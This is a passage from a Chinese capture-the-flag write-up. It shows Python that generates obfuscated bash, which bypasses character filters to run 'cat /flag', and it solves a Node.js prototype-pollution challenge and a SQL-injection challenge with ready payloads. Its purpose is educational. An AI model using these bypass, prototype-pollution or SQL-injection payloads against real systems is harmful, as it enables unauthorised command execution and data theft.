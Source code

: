 ```python

cmd+="__=\n"
cmd+=addchar("c",c3,"___","__")
cmd+=addchar("a",c3,"___","__")
cmd+=addchar("t",c3,"___","__")
cmd+=addchar(" ",c3,"___","__")
cmd+=addchar("/",c3,"___","__")
cmd+=addchar("f",c3,"___","__")
cmd+=addchar("l",c3,"___","__")
cmd+=addchar("a",c3,"___","__")
cmd+=addchar("g",c3,"___","__")

cmd+="$__\n"

print(cmd)
```

```bash
___=$_
____=~
__=
__=$__${____:3:1}
__=$__${___:2:1}
__=$__${___:4:1}
___=`$__`
__=
__=$__${___:58-18:1}
__=$__${___:4-4:1}
__=$__${___:2:1}
__=$__${___:3:1}
__=$__${___:715:1}
__=$__${___:141-33:1}
__=$__${___:65:1}
__=$__${___:8-8:1}
__=$__${___:22:1}
$__
```

## 0x09 Node.js is Web Scale

打开题目，发现源码。看到题目中可以任意多级操作一个dict的内容，赛棍一眼就知道了是原型链污染。同时题目中也写了exec执行命令的部分，用`execute?cmd=x`，就可以执行cmds数组中key为x的命令。

所以只需要设置 `__proto__.hack` 的内容为 `cat /flag`。再去调用 `execute?cmd=hack`，由于原型链污染，查`cmds[hack]`的时候就会直接查到我们设置的内容上，得到flag。

## 0x0A PaoluGPT

观察源码不难发现，本题存在SQL注入漏洞。我们直接该view的url到 `6' or shown=false---`  获得flag2，注意需要多拉一下滚轮。

flag1当然也不用写爬虫了。直接`6' or contents like "%flag%"---`。
